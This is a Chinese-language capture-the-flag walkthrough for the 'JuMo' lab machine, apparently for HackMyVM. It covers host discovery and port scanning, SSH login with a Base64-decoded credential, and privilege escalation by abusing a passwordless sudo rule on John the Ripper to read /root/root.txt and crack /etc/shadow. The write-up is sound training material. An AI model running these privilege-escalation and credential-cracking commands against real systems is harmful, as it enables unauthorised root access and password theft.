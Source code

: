 ### 1. 简介

- 靶机名称: JuMo (未发布，内部测试靶机，可能后续发布于 HackMyVm)
- 难度: 低 (Low)
- 目标 IP: 192.168.205.182 (通过 arp-scan 发现)
- 攻击机 IP: 192.168.205.128
- 目标: 获取目标系统的 root 权限并找到 flag。

### 2. 信息收集 (Enumeration)

#### 2.1. 主机发现

首先，使用 arp-scan 在本地网络中发现目标主机的 IP 地址。

```bash
┌──(kali㉿kali)-[~/test]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:64:60:b9, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
# ... (其他输出) ...
192.168.205.182 08:00:27:ff:bf:ce       PCS Systemtechnik GmbH #<-- 目标主机
# ... (其他输出) ...
Ending arp-scan 1.10.0: 256 hosts scanned in 2.033 seconds (125.92 hosts/sec). 4 responded
```

确认目标 IP 为 192.168.205.182。

#### 2.2. 端口扫描

使用 nmap 对目标主机进行全端口扫描，以识别开放的服务。

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -p- 192.168.205.182
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 08:46 CST
Nmap scan report for 192.168.205.182
Host is up (0.00022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh     #<-- SSH 服务开放
80/tcp open  http    #<-- HTTP 服务开放
MAC Address: 08:00:27:FF:BF:CE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

扫描结果显示目标开放了 22 (SSH) 和 80 (HTTP) 端口。

### 3. 获取初始访问权限 (Initial Foothold)

#### 3.1. Web 服务探测

访问目标主机的 80 端口（http://192.168.205.182）。

![image-20250411084817446](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411084824566.png)

这个提示我们在 hackmyvm 平台上查找一个名为 check 的用户。

#### 3.2. 信息挖掘

在 HackMyVm 网站上搜索用户 check。

![image-20250411085044849](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411085044939.png)

找到了该用户的个人资料，其中包含一个外部链接。访问该链接：

![image-20250411085314126](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411085314150.png)

页面上有一串 Base64 编码的字符串 d2VsY29tZTpqdW1v。对其进行解码：

```bash
┌──(kali㉿kali)-[~/test]
└─$ echo 'd2VsY29tZTpqdW1v' | base64 -d
welcome:jumo
```

解码后得到 welcome:jumo，这很可能是一对 SSH 登录凭据（用户名:密码）。

#### 3.3. SSH 登录

使用获取到的凭据尝试 SSH 登录：

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh welcome@192.168.205.182
# ...(SSH 连接确认)...
Password: # 输入密码 jumo
Linux JuMo 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
# ... (欢迎信息) ...
welcome@JuMo:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功以 welcome 用户身份登录系统。

### 4. 权限提升 (Privilege Escalation)

#### 4.1. Sudo 权限检查

检查 welcome 用户拥有的 sudo 权限：

```bash
welcome@JuMo:~$ sudo -l
Matching Defaults entries for welcome on JuMo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on JuMo:
    (ALL : ALL) NOPASSWD: /usr/sbin/john   #<-- 可以免密以 root 权限执行 john
```

输出显示 welcome 用户可以无需密码 (NOPASSWD) 以任何用户 (ALL:ALL) 的身份执行 /usr/sbin/john 命令。john (John the Ripper) 是一个密码破解工具。

#### 4.2. 利用 Sudo 权限

由于可以以 root 身份执行 john，并且 /root 目录下的文件通常只有 root 用户可读，我们可以尝试利用 john 读取 /root 目录下的文件。

方法一：直接读取可能的 Flag 文件 (我的方法)

我已知 /root/root.txt 包含了 flag。虽然 john 的 --wordlist 选项通常用于指定密码字典，但配合 --stdout 选项，john 会将 wordlist 的内容（或生成的候选密码）打印到标准输出。利用 sudo 权限，这可以用来读取 root 权限才能访问的文件内容。

```bash
welcome@JuMo:~$ sudo /usr/sbin/john --wordlist=/root/root.txt --stdout
Press 'q' or Ctrl-C to abort, almost any other key for status
flag{521ca933d6e159a50c2c04e7daa930f6}  #<-- 读取并输出了 /root/root.txt 的内容
1p 0:00:00:00 100% 100.0p/s flag{521ca933d6e159a50c2c04e7daa930f6}
```

此命令成功读取了 /root/root.txt 文件，内容即为 flag。

方法二：破解 Root 密码 (ta0神的方法)

更常见的利用 john 进行提权的方式是破解 /etc/shadow 文件中的密码哈希。这里假设 /root/root.txt 文件恰好包含了 root 用户的密码（或者可以直接作为字典）。

```bash
welcome@JuMo:~$ sudo /usr/sbin/john /etc/shadow --wordlist=/root/root.txt
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 100% 0g/s 100.0p/s 200.0c/s 200.0C/s flag{521ca933d6e159a50c2c04e7daa930f6} #<-- 破解出的 root 密码
Session completed
```

john 成功利用 /root/root.txt 的内容（即 flag）作为字典，破解了 /etc/shadow 文件中的 root 用户密码哈希。破解得到的 root 密码正是 flag{521ca933d6e159a50c2c04e7daa930f6}。

#### 4.3. 获取 Root 权限

根据群主提示我们可知root密码为root flag

```bash
welcome@JuMo:~$ su -
Password: # 输入 521ca933d6e159a50c2c04e7daa930f6
root@JuMo:~# id
uid=0(root) gid=0(root) groups=0(root)
root@JuMo:~# cat /root/root.txt
flag{521ca933d6e159a50c2c04e7daa930f6}
```

成功获取 root 权限。最终的 flag 存储在 /root/root.txt 中。

### 5. 总结

本次渗透测试通过以下步骤完成：

1. 信息收集: 使用 arp-scan 和 nmap 发现目标主机及其开放的 SSH 和 HTTP 服务。
2. 初始访问: 分析网页源代码，发现指向 HackMyVm 用户 check 的线索，进而找到其外部链接中的 Base64 编码凭据，成功通过 SSH 登录 welcome 用户。
3. 权限提升: 发现 welcome 用户可通过 sudo 免密执行 john 命令。利用此权限，通过 john --wordlist=/root/root.txt --stdout 直接读取了 /root/root.txt 中的 flag，或者通过 john /etc/shadow --wordlist=/root/root.txt 破解出 root 密码（密码恰好是 flag），最终使用 su 命令切换到 root 用户。

靶机设计巧妙，利用了信息泄露和 sudo 配置不当的漏洞，难度符合 Low 级别。